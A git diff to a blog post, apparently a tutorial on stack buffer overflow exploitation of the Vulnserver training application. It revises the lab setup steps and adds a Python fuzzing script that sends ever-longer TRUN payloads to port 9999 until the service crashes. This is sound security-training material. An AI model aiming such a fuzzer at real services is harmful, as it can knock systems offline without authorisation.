

-

Changed region(s): [[0.0, 0.0, 1.0, 1.0]]

diff --git a/_posts/2020-01-19-Vulnserver-Stack-Based-Buffer-Overflow.md b/_posts/2020-01-19-Vulnserver-Stack-Based-Buffer-Overflow.md
@@ -16,7 +16,7 @@ To practice exploiting the software we need the following
 * [Kali](https://www.offensive-security.com/kali-linux-vm-vmware-virtualbox-image-download/)
 * [Mona.py](https://github.com/corelan/mona)
 * Vulnserver
-* Windows 7 / 10 (I will be using Windows 10 x64)
+* Windows 10 (**32-Bit**)
 
 ## Setup
 
@@ -27,12 +27,14 @@ After creating the VMs, start up Windows VM and download vulnserver, immunity de
 
 ### Setting up Immunity Debugger
 
-Download [Immunity Debugger](https://debugger.immunityinc.com/ID_register.py), before you can download the site asks you to fill the form, you can put random information on fields.
+Download [Immunity Debugger](https://debugger.immunityinc.com/ID_register.py), before you can download the site asks you to
+fill the form, you can put random information in the fields.
 
 ![immu1](/images/vulnserver/stack/immu1.PNG)
 
 Install Immunity Debugger and when the installer asks to install python 2.7.1 allow the installation.
-After the installation is complete download [mona](https://github.com/corelan/mona) and copy the mona.py over to the Pycommands folder inside Immunity Debugger. In this case **C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands**
+After the installation is complete download [mona](https://github.com/corelan/mona) and copy the mona.py over to the
+Pycommands folder inside Immunity Debugger. In this case **C:\Program Files\Immunity Inc\Immunity Debugger\PyCommands**
 
 ![mona1](/images/vulnserver/stack/mona1.PNG)
 
@@ -58,7 +60,34 @@ You now have vulnserver up and running
 ## Exploiting TRUN Command
 
 Now that we have basic setup done, we can start exploiting vulnserver via the TRUN command. First we can connect  to the
-server using netcat, by default vulnserver listens on port 9999. Connect with **nc -v 192.168.209.132 9999** we can also list
-the comamnds by issuing the comamnd **HELP** after connecting.
+server using netcat, by default vulnserver listens on port 9999. Connect with **nc -v Windows VM IP 9999**, we can also list
+the commands by issuing the command **HELP** after connecting.
 
 ![exp1](/images/vulnserver/stack/exp1.PNG)
+
+First we create a fuzzing script with python that we can use to crash vulnserver. An example code could be spmethign like.
+
+'''python
+#!/usr/bin/python
+import sys, socket
+from time import sleep
+
+host = "192.168.209.133"
+port = 9999
+
+buffer = "A" * 100
+
+while True:
+         try:
+                s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
+                s.connect((host,port))
+                s.send(('TRUN /.:/' + buffer))
+                s.close()
+                sleep(1)
+                buffer = buffer + "A" * 100
+
+         except:
+                 print "Fuzzing crashed at %s bytes" % str(len(buffer))
+                 sys.exit()
+
+'''
